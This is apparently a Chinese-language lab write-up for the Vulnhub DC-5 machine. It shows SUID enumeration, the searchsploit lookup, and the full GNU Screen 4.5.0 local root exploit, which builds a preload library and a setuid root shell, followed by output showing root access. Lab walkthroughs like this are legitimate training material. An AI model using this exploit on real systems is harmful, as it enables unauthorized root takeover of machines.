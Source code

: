 # Vulnhub DC-5 渗透测试-提权

## 1. 利用点查找

```bash
# 查询所有具有setuid的指令
find / -user root -perm -4000 2>/dev/null
```

> -user uname 即指定命令拥有者
>
> 2>/dev/null 错误重定向到/dev/null，即不显示错误信息
>
> -perm -4000 用于指定查询内容的权限，表达权限查询具有setuid的命令

```bash
www-data@dc-5:~/html$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/mount
/bin/umount
/bin/screen-4.5.0
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/at
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/exim4
/sbin/mount.nfs
```

可以看到在可执行文件中有个显著的程序`screen-4.5.0`。

> GNU Screen是一款由GNU计划开发的用于命令行终端切换的自由软件。用户可以通过该软件同时连接多个本地或远程的命令行会话，并在其间自由切换。GNU Screen可以看作是窗口管理器的命令行界面版本。它提供了统一的管理多个会话的界面和相应的功能。
>
> 即复用会话窗口。

通过`searchsploit`查找`screen 4.5`的可利用漏洞。

> `searchsploit`是`ExploitDB`中带有的搜索命令，用于检索`ExploitDB`中的漏洞，kali完整版中具有本地库。
>
> [ExploitDB](https://github.com/offensive-security/exploitdb) 是一个面向全世界黑客的漏洞提交平台，该平台会公布最新漏洞的相关情况，这些可以帮助企业改善公司的安全状况，同时也以帮助安全研究者和渗透测试工程师更好的进行安全测试工作。Exploit-DB提供一整套庞大的归档体系，其中涵盖了各类公开的攻击事件、漏洞报告、安全文章以及技术教程等资源。

```bash
> searchsploit screen 4.5
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                    | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                              | linux/local/41152.txt
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

主要关注`/usr/share/exploitdb/exploits/linux/local/41154.sh`文件，可以看到直接给出了利用方式。

同时给出了[bug](https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html)介绍，简要看了一下主要是**利用程序的check以root权限打开日志文件**。这使得我们可以截断任何文件或创建一个具有任何目录中的任何内容的root文件，并且可以通过这种方式轻松地获取root权限。

```bash
> cat /usr/share/exploitdb/exploits/linux/local/41154.sh/41154.sh
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>ls
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

## 2. 漏洞利用

上述`41154.sh`本来应该直接具有可执行性。但是上传到被攻击服务器上时，执行有错误。

对脚本稍作整理之后执行。执行过程并不复杂。

**将第一部分代码存于`/tmp/libhax.c`编译为`/tmp/libhax.so`。**

**内容主要是赋予`/tmp/rootshell`权限。**

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

**将第二部分代码存于`/tmp/rootshell.c`编译为`/tmp/rootshell`。**

**内容主要是设置`setuid`等权限，提权后运行`sh`。**

```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

**第三部分执行代码，可保存为shell脚本等待使用`poc.sh`。**

```bash
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

**将整理好的`libhax.so`、`rootshell`、`poc.sh`上传到靶机的`/tmp`下。赋予`poc.sh`权限，执行后看到提权成功。**

```bash
www-data@dc-5:~/html$ cd /tmp
www-data@dc-5:/tmp$ ls
dc5.sh	libhax.so  rootshell
www-data@dc-5:/tmp$ chmod +x poc.sh
www-data@dc-5:/tmp$ ./poc.sh
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

# whoami
root
# cd /root
# ls
thisistheflag.txt
#
```

